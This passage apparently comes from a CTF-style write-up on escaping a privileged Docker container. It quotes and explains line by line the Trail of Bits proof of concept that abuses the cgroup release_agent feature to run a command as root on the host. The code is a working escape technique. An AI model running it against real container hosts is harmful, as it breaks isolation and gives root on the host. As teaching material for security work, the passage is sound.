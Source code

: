 If we search some articles about docker escape, we can find one of them which talks about this privesc technique:

{% embed url="https://vickieli.dev/system%20security/escape-docker/" %}

On this article, we can check how to escape the container using a script:

**Container Escape**

So how do you escape a privileged container? By using this script. This example and PoC were taken from the [Trail of Bits Blog](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). Read the original post for a more detailed explanation of the PoC:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

This PoC works by exploiting cgroup’s `release_agent` feature.

After the last process in a cgroup exits, a command used to remove abandoned cgroups runs. This command is specified in the `release_agent` file and it runs as root on the host machine. By default, this feature is disabled and the `release_agent` path is empty.

This exploit runs code through the `release_agent` file. We need to create a cgroup, specify its `release_agent` file, and trigger the `release_agent` by killing all the processes in the cgroup. The first line in the PoC creates a new group:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

The next line enables the `release_agent` feature:

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```

Then, the next few lines write the path of our command file to the `release_agent` file:

```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

We can then start writing to our command file. This script will execute the `ps aux` command and save it to the `/output` file. We also need to set the script’s execute permission bits:

```bash
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
